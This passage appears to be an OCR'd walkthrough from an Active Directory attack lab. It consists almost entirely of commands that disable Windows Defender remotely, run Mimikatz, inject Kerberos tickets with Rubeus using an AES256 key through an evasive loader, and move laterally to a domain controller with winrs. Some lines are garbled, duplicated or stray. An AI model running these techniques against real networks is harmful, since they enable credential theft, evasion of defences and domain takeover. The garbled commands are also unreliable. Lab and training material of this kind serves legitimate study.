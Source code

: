 ```
PS C:\Users\Administrator\.jenkins\workspace\Projectx> $sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local  
PS C:\Users\Administrator\.jenkins\workspace\Projectx> Invoke-command ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess 
PS C:\Users\Administrator\.jenkins\workspace\Projectx> Invoke-command ScriptBlock ${function:Invoke-Mimi} -Session $sess 
```
```
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat 
[!] Argument Limit: 180 characters 
[+] Enter a string: asktgt 
set "Pwn=%u%%v%%w%%x%%y%%z%" 
```
C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
C:\Windows\system32>winrs -r:dcorp-dc cmd /c set username USERNAME=svcadmin 
```

## Derivative Local Admin:
Now moving on to the next task, we need to escalate to domain admin using derivative local admin. Let’s find out the machines on which we have local admin privileges. On a PowerShell session started using Invisi-Shell, enter the following command. 
```
PS C:\AD\Tools> . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1 
PS C:\AD\Tools> Find-PSRemotingLocalAdminAccess dcorp-adminsrv [snip] 
```
```
C:\AD\Tools>winrs -r:dcorp-adminsrv cmd 
Microsoft Windows [Version 10.0.20348.1249] 
(c) Microsoft Corporation. All rights reserved. 
C:\Users\studentx>reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2 
```
```
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference DisableRealtimeMonitoring $true -Verbose 
VERBOSE: Performing operation 'Update MSFT_MpPreference' on Target 'ProtectionManagement'. 


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc = Get-Process
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> exit
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> $proc
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> whoami /priv
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student157\Documents> hello
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1 